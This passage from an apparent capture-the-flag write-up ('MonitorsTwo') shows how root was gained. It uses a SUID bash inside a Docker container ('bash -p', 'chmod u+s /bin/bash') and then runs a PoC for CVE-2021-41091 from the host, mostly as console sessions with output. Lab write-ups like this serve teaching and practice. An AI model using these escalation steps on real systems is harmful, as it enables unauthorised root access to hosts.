 This command gives us all the SUID binaries ,that we can read/execute. If we go to [gtfobins](https://gtfobins.github.io/gtfobins), we can use one of them to elevate our privileges. Now that we have that information, we can run our exploit

### Exploit

We will use the `/bin/bash` SUID binary to elevate our priveleges:

**DOCKER - Elevate and Chmod /bin/bash**

```console
bash-5.1$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash-5.1$ bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
chmod u+s /bin/bash
```

After running `bash -p` we can see that our effective uid is that of root:\
`euid=0(root)`\


**HOST - Run PoC script**

```console
marcus@monitorstwo:/tmp/tmp782$ ./exp.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
...SNIP

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit

marcus@monitorstwo:/tmp/tmp782$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
marcus@monitorstwo:/tmp/tmp782$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
```

We now have root access outside our container!

### Root.txt

```console
bash-5.1# ls /root
cacti  root.txt
bash-5.1# cat /root/root.txt
656f6***************************
```
